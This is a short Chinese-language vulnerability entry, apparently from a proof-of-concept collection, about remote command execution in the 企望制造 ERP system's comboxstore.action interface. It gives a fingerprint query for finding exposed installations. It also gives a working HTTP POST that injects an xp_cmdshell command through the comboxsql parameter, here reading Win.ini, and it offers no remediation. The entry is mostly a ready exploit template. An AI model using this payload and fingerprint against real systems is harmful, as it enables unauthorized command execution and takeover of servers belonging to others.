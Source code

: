 # 企望制造 ERP comboxstore.action 远程命令执行漏洞

## 漏洞描述

企望制造 ERP comboxstore.action接口存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限，执行任意命令

## 漏洞影响

<a-checkbox checked>企望制造 ERP </a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="企望制造ERP系统"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1691818989927-dac8d740-682d-400c-a5c9-4c3cc5d53304.png)

验证POC

```php
POST /mainFunctions/comboxstore.action HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 

comboxsql=exec%20xp_cmdshell%20'type%20C:\Windows\Win.ini'
```

![img](/assets/PeiQi-Wiki/img/1691819017786-426f8cd5-38b7-4c1c-91de-912c1b5a68fb.png)